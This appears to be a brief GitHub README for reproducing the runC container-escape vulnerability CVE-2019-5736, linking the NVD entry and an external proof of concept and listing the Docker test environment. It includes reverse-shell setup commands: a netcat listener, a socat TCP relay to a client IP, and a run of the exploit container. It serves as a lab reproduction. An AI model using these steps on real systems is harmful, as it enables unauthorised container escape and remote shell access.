 # CVE-2019-5736

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-5736>


## PoC / Exploit

* <https://github.com/twistlock/RunC-CVE-2019-5736> 


## Environment used

* Ubuntu 18.04.3 LTS
* Docker-CE 18.09.1


## Reproduction
* Client terminal (reverse shell)
```bash
nc -nvlp 2345
```
* Host terminal
```bash
bash script.sh
socat TCP-LISTEN:2345,fork TCP:<Client IP>:2345
sudo docker run cve-2019-5736 2>/dev/null
```
 
